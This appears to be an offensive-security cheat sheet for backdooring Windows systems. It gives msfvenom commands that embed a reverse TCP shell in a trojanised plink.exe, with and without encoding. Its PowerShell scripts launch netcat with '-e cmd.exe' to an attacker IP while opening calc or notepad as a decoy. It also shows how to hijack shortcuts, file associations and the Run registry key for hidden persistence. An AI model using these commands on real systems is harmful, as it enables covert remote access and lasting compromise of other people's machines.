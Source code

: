 # Backdoors

## Backdoor Cheat Sheet

### Methods

1. Creating EXE Files
2. Backdooring Shortcuts
3. Startup Scripts
4. Backdooring file associations

***

### Create an EXE file

#### msfvenom

```
# Without encoding
sudo msfvenom -a x64 --platform windows -x /usr/share/windows-binaries/plink.exe -k -p windows/x64/shell_reverse_tcp LHOST=192.168.56.20 LPORT=4444 -b "\x00" -f exe -o plink-malicious.exe

# With encoding
sudo msfvenom -a x64 --platform windows -x /usr/share/windows-binaries/plink.exe -k -p windows/x64/shell_reverse_tcp LHOST=192.168.56.20 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai -i 4 -f exe -o plink-malicious.exe

```

### Backdooring Shortcuts

#### Powershell

**script.ps1**

```
Start-Proces -NoNewWindow "C:\tools\nc64.exe" "-e cmd.exe <attacker ip> <port>"

C:\Windows\System32\calc.exe

```

**Modify the shortcut properties**

```
//Change Target Field
powershell -WindowStyle hidden C:\Windows\System32\script.ps1

```

### Startup Scripts

#### Registry Editor

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

### Backdooring file associations

#### backdoor.ps1

```
Start-Proces -NoNewWindow "C:\tools\nc64.exe" "-e cmd.exe <attacker ip> <port>"

C:\Windows\System32\NOTEPAD.exe $args[0]

```

#### Registry Editor

```
Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Classes\testfile\shell\open\command


# Change "value data" field
powershell -Windowstyle hidden C:\Windows\System32\backdoor.ps1
```

***

## REFERENCES

* https://devblogs.microsoft.com/powershell/how-to-access-or-modify-startup-items-in-the-window-registry/
* https://app.tidalcyber.com/technique/9cfbe3ba-957e-49fd-9494-9870e5d0ae16
